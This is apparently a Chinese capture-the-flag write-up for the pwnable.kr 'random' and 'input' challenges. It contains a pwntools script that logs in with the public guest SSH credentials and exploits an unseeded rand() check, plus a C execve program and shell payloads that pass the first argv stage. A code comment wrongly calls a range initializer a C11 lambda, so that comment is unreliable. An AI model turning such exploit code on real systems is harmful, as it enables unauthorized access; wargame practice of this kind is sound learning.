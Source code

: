 ```python
#coding=utf-8
from pwn import *
from ctypes import *
context(arch = 'amd64', os = 'linux')

libc=cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")

shell=ssh(host='pwnable.kr',user='random',password='guest',port=2222)
#shell.download_file("./random.c")
#shell.download_file("./random")

payload=str(0xdeadbeef^(libc.rand()))

sh=shell.run('./random')
sh.sendline(payload)
sh.interactive()
```

## 0x07 input

考察程序的各项基本操作

可惜我还没有那么多“常识”

### Stage 1 argv

```c
	if(argc != 100) return 0;
	if(strcmp(argv['A'],"\x00")) return 0;
	if(strcmp(argv['B'],"\x20\x0a\x0d")) return 0;
	printf("Stage 1 clear!\n");	
```

一开始直接写

```
#payload=" a"*(ord('A')-1)+" \x00"+" a"*(ord('B')-ord('A'))+" \x20\x0a\x0d"+' a'*(100-ord('B')+1)
#sh=shell.run('./input'+payload)
```

发现\x20\x0a\x0d是空格换行回车。。。。会被当成分隔符不被读入。。。。

当然你也可以通过设置手动设置分隔符的方式通过Stage1

```
IFS='-'//设置分隔符为“-”
./input `python-c 'print"aaa-"*64+"\x00-"+"\x20\x0a\x0d-"+"aaa-"*33'`
```

最后还是发现写c脚本更好用

**Exp**

```c
#include<stdio.h>
#include<unistd.h>
int main(){
    char *argv[101]={"./input",
                     [1 ... 99]="A",/*C11 lambda表达式*/
                     NULL},
    	 *envp[2];
    argv['A']="\x00";
    argv['B']="\x20\x0a\x0d";

    execve("./input",argv,envp);
    return 0;
}
```
